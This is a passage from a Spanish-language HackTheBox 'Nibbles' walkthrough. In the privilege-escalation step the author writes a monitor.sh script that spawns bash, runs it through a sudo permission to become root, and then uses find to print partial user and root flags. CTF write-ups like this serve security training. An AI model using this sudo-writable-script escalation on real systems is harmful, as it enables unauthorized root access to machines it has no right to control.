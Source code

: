 Ingresamos a la ruta `/home/nibbler/personal/stuff` y creamos el script `monitor.sh` con el siguiente contenido.

```bash
nano monitor.sh
#!/bin/bash
bash
```

Asignamos permisos de ejecución.

```bash
chmod +x monitor.sh
```

Ejecutamos el comando y finalmente obtenemos acceso al sistema con un usuario privilegiado.

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
find / -name user.txt 2>/dev/null | xargs head -c 10; echo
eb6f5526f2
```

```bash
#ROOT
find / -name root.txt 2>/dev/null | xargs head -c 10; echo
8ea802495e
```

¡Hemos logrado completar la máquina `nibbles` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/nibbles/12-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
